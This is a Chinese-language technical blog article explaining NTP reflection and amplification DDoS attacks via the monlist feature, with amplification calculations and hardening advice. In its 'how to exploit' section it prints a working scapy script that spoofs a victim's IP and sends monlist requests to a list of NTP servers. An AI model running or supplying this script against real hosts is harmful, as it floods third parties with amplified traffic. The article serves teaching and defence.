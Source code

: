 # 浅谈基于 NTP 的反射和放大攻击 ![](img/img1_u143_png.jpg)

2014/02/14 18:16 | [心伤的胖子](http://drops.wooyun.org/author/心伤的胖子 "由 心伤的胖子 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [运维安全](http://drops.wooyun.org/category/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8 "查看 运维安全 中的全部文章") | 占个座先 | 捐赠作者

## 0x01 一些案例

* * *

最近一段时间 DDoS 攻击事件让基于 NTP 的 DDoS 攻击变得很火热，先看看下面的信息感受下：

> “It was a very large DDoS targeting a CloudFlare customer,” Matthew Prince, CEO of Cloudflare told SecurityWeek. “We're still gathering the log data to get exact numbers but know it was well over 300Gbps and likely over 400Gbps,” Prince said.
> 
> “The method was NTP reflection, which is quickly replacing DNS reflection as the source of the largest attacks,” Prince said.

消息中称 CloudFlare 遭受了高达 400G 流量的 NTP 反射攻击，目前从网上各处的消息来看，众说纷纭，我们先不去考证消息的真伪，仅仅从攻击方法和流量方面来看着实体现出 NTP 反射攻击的威力。

## 0x02 什么是 NTP

* * *

NTP 是网络时间协议（Network Time Protocol）的简称，干嘛用的呢？就是通过网络协议使计算机之前的时间同步化。

## 0x03 NTP 反射和放大攻击

* * *

那什么是 NTP 反射和放大攻击呢？如果听过 DNS 反射和放大攻击的话应该就会对这个比较容易理解了，协议不同，效果一样。

我们先来说说放射和放大攻击：

无论是基于 DNS 还是基于 NTP，其最终都是基于 UDP 协议的。在 UDP 协议中正常情况下客户端发送请求包到服务端，服务端返回响应包到客户端，但是 UDP 协议是面向无连接的，所以客户端发送请求包的源 IP 很容易进行伪造，当把源 IP 修改为受害者的 IP，最终服务端返回的响应包就会返回到受害者的 IP。这就形成了一次反射攻击。

放大攻击呢就是一次小的请求包最终会收到一个或者多个多于请求包许多倍的响应包，这样就达到了四两拨千斤的效果。

那我们接着来看什么是 NTP 的反射和放大攻击，NTP 包含一个 monlist 功能，也被成为 MON_GETLIST，主要用于监控 NTP 服务器，NTP 服务器响应 monlist 后就会返回与 NTP 服务器进行过时间同步的最后 600 个客户端的 IP，响应包按照每 6 个 IP 进行分割，最多有 100 个响应包。

我们可以通过 ntpdc 命令向一个 NTP 服务器发送 monlist 以及结合抓包来看下实际的效果。

> pangzi@pangzi-mac ~$ ntpdc -n -c monlist x.x.x.x | wc -l
> 
> 602

![NTP wireshark](img/img1_u67_jpg.jpg)

在上面的命令行中我们可以看到一次含有 monlist 的请求收到 602 行数据，除去头两行是无效数据外，正好是 600 个客户端 IP 列表，并且从上面图中的 wireshark 中我们也看到显示有 101 个 NTP 协议的包，除去一个请求包，正好是 100 个响应包。

从上图中我们可以看到请求包的大小为 234 字节，每个响应包为 482 字节，如果单纯按照这个数据我们可以计算出放大的倍数是：482*100/234 = 206 倍。其实如果通过编写攻击脚本，请求包会更小，这个倍数值会更大，这样算起来是不是蛮屌的。

## 0x04 如何利用

* * *

我们通过 scapy 实现一个简单的攻击脚本，代码如下：

```
#!/usr/bin/env python
# author: pangzi.me@gmail.com

import sys
from scapy.all import *

def attack(target, ntp_server):
    send(IP(dst=ntp_server, src=target)/(UDP(sport=52816)/NTP(version=2, mode=7, stratum=0, poll=3, precision=42)))

if __name__ == "__main__":
    if len(sys.argv) != 3:
        sys.exit(1)

    target = sys.argv[1]
    ntp_server_file = sys.argv[2]
    for ntp_server in open(ntp_server_file, "r"):
        ntp_server = ntp_server.strip()
        if ntp_server != "":
            attack(target, ntp_server)

```

## 0x05 如何防御

* * *

我们可以分为两种情况进行防御

#### 加固 NTP 服务

```
1\. 把 NTP 服务器升级到 4.2.7p26
2\. 关闭现在 NTP 服务的 monlist 功能，在 ntp.conf 配置文件中增加`disable monitor`选项
3\. 在网络出口封禁 UDP 123 端口 
```

#### 防御 NTP 反射和放大攻击

```
1\. 由于这种攻击的特征比较明显，所以可以通过网络层或者借助运营商实施 ACL 来防御
2\. 使用防 DDoS 设备进行清洗 
```

不过我觉得如果流量真的够大，400G？800G？或者更大，又有谁能够防得住呢？

版权声明：未经授权禁止转载 [心伤的胖子](http://drops.wooyun.org/author/心伤的胖子 "由 心伤的胖子 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Google DNS 劫持背后的技术分析](http://drops.wooyun.org/papers/1207)
*   [Openssl 多个安全补丁简易分析危害及修复方案](http://drops.wooyun.org/papers/2185)
*   [Python Pickle 反序列化带来的安全问题](http://drops.wooyun.org/papers/66)
*   [Windows 平台下的堆溢出利用技术（二）（上篇）](http://drops.wooyun.org/papers/1714)
*   [DNS 域传送信息泄露](http://drops.wooyun.org/papers/64)
*   [如何发现 NTP 放大攻击漏洞](http://drops.wooyun.org/tips/4715)